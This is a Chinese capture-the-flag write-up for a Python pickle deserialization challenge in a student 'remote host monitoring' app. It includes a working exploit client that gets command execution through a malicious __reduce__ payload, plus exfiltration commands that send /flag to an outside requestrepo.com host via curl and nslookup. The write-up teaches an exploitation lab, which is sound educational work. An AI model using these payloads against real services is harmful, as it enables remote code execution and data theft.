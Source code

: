 # 危险的课设

- 作者：13m0n4de
- 参考：-
- 难度：-
- 分类：Misc
- 镜像：[svuctf-spring-2024/pickle](https://ghcr.io/svuctf/svuctf-spring-2024/pickle)
- 端口：8848

## 题目描述

你混入了学长的教室，今天他们正在写一个叫做“远程主机性能监控”的小组作业。

「🤔这代码……」

「看来我可以黑掉学长们的电脑了。」

> Hint：server.py 是服务端，运行在靶机上；client.py 是示例客户端。两者都可以在本地运行测试。

## 题目解析

考点：Pickle 反序列化

二年级的同学们当时正在做这个作业，老师推荐使用 Pickle 库，于是有了这题，算是某种意义上的从真实事件中取材了。

在 Pickle 库的[文档](https://docs.python.org/zh-cn/3/library/pickle.html)开头，醒目地注明了 Pickle 数据在反序列化时是不安全的：

![pickle_docs](./writeup/images/pickle_docs.png)

当对象被 `unpickle` 时，方法 `__reduce__` 将会被自动执行：

```python
import pickle, os


class P(object):
    def __reduce__(self):
        return (os.system, ("echo pwned!",))


# serialize
obj_bytes = pickle.dumps(P())
print(obj_bytes)

# deserialize
pickle.loads(obj_bytes)
```

```
$ python poc.py
b'\x80\x04\x95&\x00\x00\x00\x00\x00\x00\x00\x8c\x05posix\x94\x8c\x06system\x94\x93\x94\x8c\x0becho pwned!\x94\x85\x94R\x94.'
pwned!
```

这题是最基本的 Pickle 反序列化，不需要与 opcode 或者沙箱打交道，所以 Pickle 库的工作原理不在这里展开，重点分析一下通信的数据格式。

客户端关键代码：

```python
# client
info = Info()

client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect((IP, PORT))

while True:
    # ...

    data = pickle.dumps(info)
    data = len(data).to_bytes(4) + data

    client.send(data)

    time.sleep(INTERVAL_TIME)
```

服务端关键代码：

```python
# server
server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
server.bind((IP, PORT))
server.listen()

print(f"Server is running and listening on port {PORT}...")

while True:
    client, address = server.accept()
    client_ip, client_port = address
    print(f"Connected to client: {client_ip}:{client_port}")

    while True:
        try:
            data_len = client.recv(4)
            len = int.from_bytes(data_len)
            data = client.recv(len)
            info = pickle.loads(data)
            print_info(info)
        except Exception:
            client.close()
            break
```

可以看到，数据发送时会先计算序列化数据的长度，并将长度转换为 4 byte 拼接到序列化数据的头部；而数据接收时，会先接收 4 byte，转换为 int，用其作为长度接收序列化数据。

```python
# client
data = pickle.dumps(info)
data = len(data).to_bytes(4) + data

# server
data_len = client.recv(4)
len = int.from_bytes(data_len)
data = client.recv(len)
info = pickle.loads(data)
```

设计这样的传输方式是为了明确消息边界，保证数据完整。

漏洞利用的时候，也一样需要给数据前拼上“长度前缀”：

```python
import socket
import os
import pickle
from typing import Any

IP = "127.0.0.1"
PORT = 8848


class Evil:
    def __reduce__(self) -> str | tuple[Any, ...]:
        return (os.system, ("whoami",))


client = socket.socket()
client.connect((IP, PORT))

data = pickle.dumps(Evil())
data = len(data).to_bytes(4) + data
client.send(data)

client.close()
```

这样执行命令是没有回显的，需要将数据带出来，如果有公网 IP 可以考虑反弹 Shell，没有也没关系，推荐使用 [http://requestrepo.com/](http://requestrepo.com/)，可以记录 DNS 和 HTTP 请求，并且可以自定义返回内容。

使用 nslookup 测试数据能否带出（如果使用 `ping` 记得指定 `-c` 选项以免卡死靶机）：

```python
class Evil:
    def __reduce__(self) -> str | tuple[Any, ...]:
        return (os.system, ("nslookup kv4ie0su.requestrepo.com",))
```

可以看到有几次 DNS 请求：

![nslookup](./writeup/images/nslookup.png)

带出数据的方式有很多种，举个使用 CURL 的例子，把命令结果放在 POST 请求体里：

```
cat /flag | curl kv4ie0su.requestrepo.com -d@-
```

![flag](./writeup/images/flag.png)
